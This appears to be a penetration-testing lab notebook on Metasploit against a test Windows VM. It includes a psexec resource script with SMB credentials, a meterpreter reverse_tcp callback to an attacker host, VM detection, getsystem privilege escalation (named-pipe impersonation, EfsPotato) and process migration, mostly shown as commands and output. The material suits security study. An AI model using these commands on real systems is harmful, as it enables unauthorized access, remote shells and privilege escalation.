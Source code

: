 ## Run this everytime when you go through this section
```python
┌──(root㉿kali)-[/home/hyok]
└─# cat /root/psexec.rc
use exploit/windows/smb/psexec
set RHOST 192.168.216.11
set SMBUSER Administrator
set SMBPASS vagrant
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q -r /root/psexec.rc
[*] Processing /root/psexec.rc for ERB directives.
resource (/root/psexec.rc)> use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
resource (/root/psexec.rc)> set RHOST 192.168.216.11
RHOST => 192.168.216.11
resource (/root/psexec.rc)> set SMBUSER Administrator
SMBUSER => Administrator
resource (/root/psexec.rc)> set SMBPASS vagrant
SMBPASS => vagrant
resource (/root/psexec.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (/root/psexec.rc)> exploit
[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] 192.168.216.11:445 - Connecting to the server...
[*] 192.168.216.11:445 - Authenticating to 192.168.216.11:445 as user 'Administrator'...
[*] 192.168.216.11:445 - Selecting PowerShell target
[*] 192.168.216.11:445 - Executing the payload...
[+] 192.168.216.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
```

## exploring Post-Exploitation modules
```python
┌──(root㉿kali)-[/home/hyok]
└─# ls /usr/share/metasploit-framework/modules/post
aix  android  apple_ios  bsd  firefox  hardware  linux  multi  networking  osx  solaris  windows
```

- These exploitation modules are categorized by the task performed:
```python
┌──(root㉿kali)-[/home/hyok]
└─# ls /usr/share/metasploit-framework/modules/post/windows
capture  escalate  gather  manage  recon  wlan
```

- Listing all post-exploitation modules by typing `use post/` and then tap `TAB` key two times:
```python
msf6 exploit(windows/smb/psexec) > use post/
Display all 409 possibilities? (y or n)
use post/aix/hashdump                                           use post/windows/gather/credentials/enum_cred_store
use post/android/capture/screen                                 use post/windows/gather/credentials/enum_laps
```

## Checking that the target is running inside a Virtual Environment
- For this purpose, we use Windows Gather Virtual Environment Detection post-exploitation gather module.
```python
meterpreter > background
[*] Backgrounding session 1...
[*] Starting persistent handler(s)...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/checkvm
msf6 post(windows/gather/checkvm) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/checkvm) > run

[*] Checking if the target is a Virtual Machine ...
[+] This is a VirtualBox Virtual Machine
[*] Post module execution completed
```

## Escalating our privilege using Meterpreter:
## Pre-requisite - [[named pipe]]
```python
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
		6 : Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

`Named Pipe` : A type of interprocess communication mechanism in Windows that enables processes to communicate with each othr over a network.
`Impersonation` : The ability of a thread in Windows to temporarily adopt the security context of another user or process, including their permissions and access rights.

`1` : Uses named pipe impersonation in memory to gain administrator access.
`In Memory` : Refers to a technique used to escalate privileges in which the malicious code is injected into the memory of a target process, rather than being written to disk.

`2` : Uses named pipe impersonation with a dropper to gain administrator access.
`Dropper` : A type of malware that drops or installs additional malware on an infected system.

`3` : Duplicates a token in memory to gain administrator access.
`Token Dupclication` : A technique used to gain administrative privileges by duplicating the [[access token]] of a process with higher privileges.

`4` : Uses a variant of named pipe impersonation for Remote Procedure Call(RPC) named pipes to gain administrator access.
`RPC(Remote Procedure Call)` : A protocol used to enable communication between processes on different systems.

`5` : Uses a variant of named pipe impersonation for Print Spooler named pipes to gain administrator access.
`Print Spooler` : A Windows service that manages print jobs and print queues.

`6` : Uses a variant of named pipe impersonation for Encrypting File System Remote Procedure Call(EFSRPC) named pipes to gain administrator access. This is also known as EfsPotato.
`EFS(Encrypting File System)` : A Windows feature that provides file-level encryption.
`EfsPotato` : A privilege escalation technique that exploits a vulnerability in the Encrypting File System Remote Procedure Call(EFSRPC) service to gain administrative access.

```python
meterpreter > getuid 
Server username: IE11WIN7\IEUser 
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)). 
meterpreter >
```

## migrating from one process to another process
- This command is used to migrate from one process context to another, which can be helpful in situations where the current process which we have broken into might crash.
- For example, if we use a browser exploit to penetrate the system, the browser may hang after exploitation, and the user may close it. So, migrating to a stable system process can help us perform our penetration testing smoothly.
```python
meterpreter > migrate 1876
[*] Migrating from 4160 to 1876...
[*] Migration completed successfully.
meterpreter > migrate -N cmd.exe
[*] Migrating from 712 to 1412...
[*] Migration completed successfully.
```
